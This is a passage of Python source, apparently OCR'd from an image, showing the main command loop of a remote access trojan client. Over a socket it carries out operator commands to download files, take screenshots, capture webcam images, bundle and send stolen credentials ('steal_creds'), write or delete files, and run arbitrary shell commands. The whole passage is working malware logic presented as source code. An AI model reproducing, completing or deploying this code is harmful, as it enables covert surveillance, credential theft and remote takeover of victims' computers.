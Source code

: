                         path = command[3:].strip()
                        msg = change_directory(path)
                        client_socket.sendall(msg.encode())
                    elif command.startswith("download"):
                        file_path = command[len("download"):].strip()
                        send_file(client_socket, file_path)
                    elif command == "screenshot":
                        send_screenshot(client_socket)
                    elif command == "webcam_snap":
                        send_webcam_image(client_socket)
                    elif command == "steal_creds":
                        send_creds_zip(client_socket)
                    elif command.startswith("mkdir "):
                        dirname = command[len("mkdir "):].strip()
                        msg = mkdir_command(dirname)
                        client_socket.sendall(msg.encode())
                    elif command.startswith("touch "):
                        filename = command[len("touch "):].strip()
                        msg = touch_command(filename)
                        client_socket.sendall(msg.encode())
                    elif command.startswith("write "):
                        msg = write_file_quick(command)
                        client_socket.sendall(msg.encode())
                    elif command.startswith("delete "):
                        target = command[len("delete "):].strip()
                        msg = delete_path(target)
                        client_socket.sendall(msg.encode())
                    else:
                        output = execute_command(command)
                        client_socket.sendall(output.encode("utf-8"))
                except Exception as e:
                    try:
                        client_socket.sendall(f"Client error: {e}\n{END_RESULT}".encode())
                    except Exception:
                        pass
                    break
        except Exception as e:
            print(f"[!] Main connection loop error: {e}")
            time.sleep(4)

# Start client main loop
if __name__ == "__main__":
    main()
